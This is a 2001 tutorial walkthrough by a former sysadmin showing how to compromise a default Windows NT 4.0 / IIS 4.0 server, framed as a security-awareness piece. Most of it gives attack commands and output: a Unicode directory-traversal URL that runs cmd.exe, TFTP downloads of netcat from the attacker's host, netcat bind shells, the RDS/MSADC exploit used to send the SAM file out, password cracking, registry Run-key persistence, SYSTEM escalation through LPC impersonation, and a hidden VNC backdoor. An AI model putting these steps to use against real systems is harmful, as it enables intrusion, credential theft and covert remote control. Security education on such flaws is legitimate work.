








Britney's Guide to Hacking NT in 5 Easy Steps
This paper is part of a series of educational pieces, to illuminate the importance of a secure environment on the Internet. Too often we hear or see "solutions" to the security problem, promising a silver bullet to stop hackers in their tracks. The scary part is, many IS managers take these promises as truth, and forget about security as soon as they have their firewall in place. Security is a work in progress, it is a job that is never done, an evolving ever changing landscape of problems, and it is easy to see why many people find the task so daunting, that it is swept under the carpet. It is an expensive and time consuming job, and never easy to accomplish, but I believe these problems need to be brought to light and dealt with.
In order to keep up with security needs, the latest exploits have to be tracked, systems patched, the network constantly monitored, and tested. New exploits appear daily, allowing script kiddies, as they are called, easy and complete access over your system, which may contain valuable or sensitive personal or financial data.
This paper focusses on breaking into an up to date standard install of a Windows NT web server, however these types of problems and solutions aren't limited to Microsoft platforms, and have to be followed for all such systems in use. Although NT does have way more security holes than any other OS.
The system itself has been taken from a production environment, where it had been in use as a backup box. The only change I made on it was to install IIS, with all default settings.
The system is running Windows NT 4.0 Server with Service Pack 6.0 and IIS Server version 4.0, on Dell Optiplex GXa hardware. It is protected behind a firewall running OpenBSD and the only ports open are 22 (ssh), 80(http), and 443(secure http), which is standard setup for an Internet connected web server.
Step #1 - Enumeration of target system.
The first step in any intrusion testing, is to enumerate the host system, finding out which OS is running, which versions, and what other services might be open. In our demonstration here, this step is mostly redundant, as we know from the beginning what our target system is. However, just to be complete and to introduce some of our tools, we can do a quick walk through.
NMAP by Fyoder - www.insecure.org/nmap/index.html
Is the de facto port scanner tool for *nix systems. It can be used to scan large networks, as easily as single hosts. It has numerous options, depending on what kind of optimization you are looking for, whether it be speed, stealth, using other networking protocols, timing. A port scanner basically connects to every port on a given system, or whatever ports you specify, and finds out what services are being offered by that system. Nmap also can do OS fingerprinting, and TCP sequence predicting ( for session hijacking).
Lets look at some nmap output so you can see what I mean:
[root@gundam /root]# nmap -O 192.168.1.2
Starting nmap V. 2.30BETA17 by fyodor@insecure.org ( www.insecure.org/nmap/ )
Interesting ports on ntkrkr (192.168.1.2):
(Ports scanned but not shown below are in state: filtered)
Port State Service
22/tcp unfiltered ssh
80/tcp open http
443/tcp open https
TCP Sequence Prediction: Class=trivial time dependency
Difficulty=4 (Trivial joke)
Remote operating system guess: Windows NT4 / Win95 / Win98
Nmap run completed -- 1 IP address (1 host up) scanned in 172 seconds
The '-O' is for the OS fingerprinting.
From here, we know its at least a Windows box, and we can see that it is running a web server on port 80.
Netcat can give us a bit more information. Basically Netcat is a little utility for reading and writing raw network packets. It is very flexible in what it can do. It can be a client or a server, and like many Unix utilities, it's real strength comes, when combined with other commands. That all sounds kinda abstract, but you'll soon see what I mean. Using netcat as a client, when can connect to the IIS web server's port, hit return a few times, and Netcat will just pipe back the raw headers it gets:
[root@gundam /root]# nc -vv 192.168.1.2 80
ntkrkr [192.168.1.2] 80 (www) open
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/4.0
Content-Type: text/html
Content-Length: 87
<html><head><title>Error</title></head><body>The parameter is incorrect. </body></html> sent 2, rcvd 224
So now we know its an IIS/4.0 server, and I believe that IIS doesn't run on win9x systems, but would instead be MS Personal Web Services or something, so we also know we are up against an NT box.
Now we have some info on what we are up against.
So we look up some security sites, to find out what exploits we can run against IIS servers. Oooo, turns out there are many. Aren't you excited!?
Exploit #1 -- Directory Traversal using Unicode encoding.
Full details and exploit code for this can be found at:
http://www.securityfocus.com/frames/?content=/vdb/bottom.html%3Fvid%3D1806
One of the hottest exploits at the moment, is a new twist on the old directory traversal trick. To explain a little more: Like FTP, a Web Server runs in a chroot'ed directory, meaning that the web server, and its users shouldn't be able to access the rest of the filesystem outside of the www publishing area. The web server however has to have certain rights in order to perform its job, such as running executable scripts. The way it is setup is that you can only execute scripts from predefined directories. On the real filesystem this directory could be c:\Inetpub\scripts on a windows box.
So picture the directory tree, partly it would look like
C:\ ---
|-- InetPub/
| |- wwwroot/
| | |- scripts/
|
|-- winnt/
| |- system32/
So we have rights to run programs in /Inetpub/scripts/ but really the interesting programs that we can exploit all live in /winnt/system32.
The way round about this is to use relative paths, so that from the scripts directory we could type:
'../../winnt/system32/cmd.exe'. This is a legal move for the computer, it is still only executing something from within the allowed directory, but its calling a program from a different location. IIS looks out for this when it parses a URL request, and will deny such a call.
The way to beat this, is by encoding those backslashes as Unicode, such that with a URL like:
http://192.168.1.2/scripts/..%c1%pc../winnt/system32/cmd.exe?/c+dir
we get:

Voila! We can now run arbitrary system commands. Our caveat is that we have the effective user idea of the web server, INET_MACHINENAME, which has very little priveleges to do anything. And also, it's kinda cumbersome to work via the web browser.
Ok, now a quick search on the net for this exploit and I find a perl script that opens a network socket and sends your same commands to the webserver. Its basically doing what your broswer does, but it's a little easier to work with.
Hence:
[root@gundam nthack]# perl -x unicodexecute.pl 192.168.1.2:80 'dir'
Executing dir on 192.168.1.2:80
HTTP/1.1 200 OK
Server: Microsoft-IIS/4.0
Date: Fri, 19 Jan 2001 00:15:26 GMT
Content-Type: application/octet-stream
Volume in drive D has no label.
Directory of D:\Inetpub\scripts
01/18/01 03:15p <DIR> .
01/18/01 03:15p <DIR> ..
2 File(s) 0 bytes
28,081,664 bytes free
Much nicer way to work. Ok, so what can we do here next? A command shell on the system would be nice, huh? On NT I hear you ask, a remote shell? Don't believe you!
Well, our little Swiss Army Knife of the Software World, netcat can do magical things, let me show you:
So first, we gotta get netcat onto the NT system. First thing we do is upload it via tftp.
We set up a tftp server on our own system so we can transfer the files over. TFTP is the Trivial File Transfer Protocol, and contain no authentication whatsoever, but its an easy way to get the files over.
[root@gundam nthack]# perl -x unicodexecute.pl 192.168.1.2:80 'tftp -i 172.16.41.71 GET nc.exe'
Executing tftp -i 172.16.41.71 GET nc.exe on 192.168.1.2:80
HTTP/1.1 502 Gateway Error
Server: Microsoft-IIS/4.0
Date: Fri, 19 Jan 2001 00:19:34 GMT
Content-Length: 215
Content-Type: text/html
<head><title>Error in CGI Application</title></head>
<body><h1>CGI Error</h1>The specified CGI application misbehaved by not returning
We can see it got there ok:
[root@gundam nthack]# perl -x unicodexecute.pl 192.168.1.2:80 'dir'
Executing dir on 192.168.1.2:80
Directory of D:\Inetpub\scripts
01/18/01 04:19p <DIR> .
01/18/01 04:19p <DIR> ..
01/18/01 04:19p 59,392 nc.exe
3 File(s) 59,392 bytes
28,022,272 bytes free
Next we start up netcat:
[root@gundam nthack]# perl -x unicodexecute.pl 192.168.1.2:80 'nc -L -p443 -d -e cmd.exe'
We don't get our command prompt back, so we know something is happening.
Basically what I've told netcat to do is to be a server, and listen on port 443. We use 443 because it is aloowed through the firewall. The '-d' means go into stealth mode, and the '-e cmd.exe' means execute this command when someone connects, so basically it shovels the remote cmd.exe over the network to your netcat client:
[root@gundam /root]# nc 192.168.1.2 443
Microsoft(R) Windows NT(TM)
(C) Copyright 1985-1996 Microsoft Corp.
D:\Inetpub\scripts>whoami
whoami
NTKRKR\IUSR_NTKRKR
D:\Inetpub\scripts>
Note the Windows prompt now! Sweee-eeeet! And also note our user id.
So from here, how do we get administrator priveleges?
Exploit # 2 -- Microsoft Data Access Components.
Full details at:
http://www.wwdsi.com/demo/advisories/rfp9907.html
Aww, now this one is exceptionally nice.
MDAC is a way for the web server to access any ODBC compliant database.
Forgive the acronymns here, but just follow along for a second.
A default install of IIS4.0 includes MDAC, and MDAC, includes a component called RDS, Remote Data Services. This is the part that actually allows for remote access to ODBC over the web.
MS Access handles these requests via it's database engine called Jet. The problem is that Jet allows calls to VBA's shell function, allowing you to to run shell commands with System Level permissions. Sounds like what we are looking for!
Now how exactly should we use this capability?
One thing that would be nice is a copy of the SAM, which is Windows Security Accounts Manager, an encrypted database containing all the user Ids and passwords. The SAM is locked by the OS during normal operation, and cannot be accessed even by Administrator. However, when an emergency repair disk is created, and the '/s' is used in the creation, a compressed copy of the same is stored on the drive itself in the winnt/repair/ directory. This should always be carefully deleted afterwards.
On this system, without me having put it there, sitting there in all it's glory was my file, 'sam._'.
Now as my current user ID, IUSER_NTKRKR I cannot touch the file. I cannot copy, move it or read it.
D:\Inetpub\scripts>copy \winnt\repair\sam._
copy \winnt\repair\sam._
Access is denied.
0 file(s) copied.
So lets try our new little MDAC script and see what we can do:
[root@gundam nthack]# perl -x msadc1.pl -h 192.168.1.2
-- RDS exploit by rain forest puppy / ADM / Wiretrip --
Please type the NT commandline you want to run (cmd /c assumed):
cmd /c tftp -i 172.16.41.71 PUT \winnt\repair\sam._
Step 1: Trying raw driver to btcustmr.mdb
winnt -> c: d: Success!
[root@gundam nthack]# ls -la /tftpboot/sam._
-rw-rw-rw- 1 thorsten thorsten 3119 Jan 18 17:33 /tftpboot/sam._
Exploit #3 -- Password Crackers.
Success! Now I can transfer it over to my Windows box and run it through the defacto Windows password cruncher, L0phtCrack:

I took all of 2 seconds to crack!
'I thought you said the SAM database was encrypted?' I hear you ask.
Well Microsoft, in their efforts to maintain backwards compatibility with older versions of Windows, uses a hashing (one-way encryption) algorithm left over from Microsoft's first foray into networking, LanManager. Even though NT has a newer, stronger algorithim, the OS must still store a copy of the LanManager hash, which has been reverse engineered, and is is quite trivial to crack as evidenced above.
Details taken from Hacking Exposed, www.hackingexposed.com
One track we can follow from here is to open the registry remotely, and do all sorts of things.
First we need to make a connection to the machine as you can't enter a username using regedit. So we can map a drive to the cracked box from our own Windows machine.:
H:\>net use q: \\192.168.1.2\d$ /user:administrator *
Type the password for \\192.168.1.2\d$:
The command completed successfully.
Now we can use regedit to connect:


From here we can add all sorts of fun stuff to the startup keys of the registry.
Some good places to start are:
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run and
Let's for example place a netcat listener in here, that will have System level privs.

Now the next time the machine is rebooted, or someone logs off and on, we will have started our program.
[insert a few hours or days wait here?]
[thorsten@gundam thorsten]$ nc 192.168.1.2 50
Microsoft(R) Windows NT(TM)
(C) Copyright 1985-1996 Microsoft Corp.
D:\WINNT\Profiles\Administrator\Desktop>whoami
whoami
NTKRKR\Administrator
Very nice. But cumbersome to have to wait for the machine to be rebooted.
We could always use some other exploits to have the machine rebooted,
however there are even easier methods.
The Local Procedure Call Ports facility is a message passing system provided by NT that allows threads and processes on the same machine to communicate with each other.
A function which supports this, designed to allow a server thread to impersonate a client thread and take actions on its behalf, can be exploited to allow arbitrary commands to be run under any user context.
From our IUSR_NTKRKR interactive shell we can upload and use a program which will exploit this.
D:\Inetpub\scripts>tftp -i 172.16.41.71 GET hk.exe
tftp -i 172.16.41.71 GET hk.exe
Transfer successful: 32768 bytes in 1 second, 32768 bytes/s
hk nc -L -p 25 -d -e cmd.exe
lsass pid & tid are: 50 - 53
Launching line was: nc -L -p 25 -d -e cmd.exe
Who do you want to be today?NtImpersonateClientOfPort succeeded
Then we from another terminal we can then hit the new netcat port.
[thorsten@gundam thorsten]$ nc 192.168.1.2 25
Microsoft(R) Windows NT(TM)
(C) Copyright 1985-1996 Microsoft Corp.
D:\Inetpub\scripts>whoami
whoami
NT AUTHORITY\SYSTEM
Now we have achieved a nice level of success. We have an interactive system level command shell. We can do anything we could if we were sitting on the console of the real box. But still, I hear you complain, 'Bah! What good is this? The real power of NT lines in it's GUI.'.
Never satisfied are you?
Ok, one last trick:
Exploit # 6 - Remote Control of the NT GUI.
VNC is a remote control program from those clever guys at AT&T Labs (although they got it when they acquired Olivetti Research Labs!). It has numerous fine features. Firstly it is free, yah! Secondly, it a light weight easy to use program, and thirdly, installing it remotely via the command line is not any harder than installing it locally.
First we need the executables. I downloaded an installed the program on my windows laptop, so I can copy the files from there. We need winvnc.exe, vnchooks.dll, and omnithread_rt.dll. Any directory should work, but it should be harder to detect if you put it somewhere underneath the %systemroot%.
Remember we mapped a drive over earlier? I can just copy the files over directly using network neighbourhood now! I put omnithread_rt.dll in the \winnt\system32\ directory, and winvnc.exe and vnchook.dll in \winnt\system32\viewers.
Next I need to add some registry entries to the remote machine. The values needed can be found on your own machine, if you do an install and monitor the Registry keys to see what has been changed.
I create a file called "winvnc.ini":
HKEY_USERS\.DEFAULT\Software\ORL\WinVNC3
SocketConnect = REG_DWORD 0x0000001
Password = REG_BINARY 0x0000008 0x57bf2d2e 0x9e6cb06e
This password value is for the word 'secret'.
We can install this from our own machine using regini and specifying the remote address:
Now back to our remote machine:
D:\WINNT\system32\viewers>winvnc -install
winvnc -install
This step installs vnc as a service, so that it does not need anyone logged on to the box.
D:\WINNT\system32\viewers>net start winvnc
net start winvnc
The VNC Server service is starting.
The VNC Server service was started successfully.
And this one starts it
Now from anyone of our attack boxes, all we have to do is launch the vncviwer program:


Now I really enjoy running vncviwer from my Linux box. Theres something fun about having full control of an NT server from within Linux. Muh-ha-ha-ha-ha!

What more could you ask for? ;-)
Conclusions --
It was much easier to hack a Windows NT box than i ever imagined, and after years being a sys admin, this was scary thought indeed. The fact is, this problem does not just affect Microsoft products, as has been recently shown through the Ramen worm which exploited default settings in RedHat Linux servers. The problem is two pronged, Companies who ship their products in a default insecure state, and system administrators who are unaware of these insecurities. With the amount of high profile viruses and internet attacks in recent months, security has definitely been brought to the forefront and being taken more seriously now.
January 2001
Thorsten Sideb0ard.